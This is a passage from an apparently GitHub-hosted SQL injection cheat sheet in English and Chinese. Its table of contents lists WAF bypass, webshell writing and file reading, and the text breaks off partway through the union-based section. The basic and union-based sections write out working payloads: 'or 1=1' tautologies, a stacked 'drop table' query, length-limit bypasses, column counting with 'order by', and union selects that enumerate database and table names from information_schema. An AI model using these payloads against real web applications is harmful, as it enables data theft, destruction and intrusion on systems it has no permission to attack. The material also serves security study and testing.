 # SQL injection  
SQL is a famous database engine which is used with web server. In this situation, we can inject some SQL based code to get what we want <3.  
[Remember, practice makes perfect!](http://www.tutorialspoint.com/mysql_terminal_online.php)  
*  [Basic](#basic-injection)  
*  [Union based](#union-based)  
*  [Blind based](#blind-based)  
*  [Error based](#error-based)  
*  [Waf繞過](#waf-bypass)  
*  [Webshell...寫檔](#webshell)  
*  [讀檔](#read-file)  
*  [sql權限問題](#sql-privilege-management)  
*  [繞過ASPX的RequestValidation](#bypass-requestvalidation-on-aspx)  
*  [sprintf/vprintf](#sprintf-vprintf)   
*  [Wordpress4.8.2 double prepare漏洞用法](#wordpress-double-prepare-misuse)  
*  [NoSQL注入](#nosql-injection)  
*  [邏輯漏洞](#logic-vul)  
*  [Tools](#tools)  
*  [防禦](#defense)  
*  [Reference](#reference)
  
### Basic injection  
select password from users where name = '$id';  
So, what can we insert into $id?  
```sql  
5566 or 1=1 --  
5566; drop table hello  // execute drop table on second line  

rafael' or 1=1 --  // select password from users where name = 'rafael' or 1=1 --';  
rafael' or ''='    // select password from users where name = 'rafael' or ''=''; 

// 繞過長度限制
'||1#     // 邏輯運算符不需要空白
'^0#
'|0#
```  
  
### Union based
1. Vul to SQL injection?   
```sql
1' or 1"  
```  
2. union with **same number** of columns  
```sql
// 不斷增加N的數量, 直到頁面不在正常顯示
1' order by N#
```  
3. make sure where is our injection point?
```sql 
//  1,2 數字會出現在注入點上 
1' and 1=2 union select 1,2...N#
```  
4. make sure some basic information
```sql
union select user(),database(),version(), @@version_compile_os--+  // 後面兩個分別是資料庫版本以及作業系統版本
```  
5. start our exciting point
```sql
...union select 1,2,...,group_concat(schema_name) from information_schema.schemata--+  // get all database name
```  
```sql
...union select 1,2,...,group_concat(table_name) from information_schema.tables where table_schema='FUCK'+--+  
```
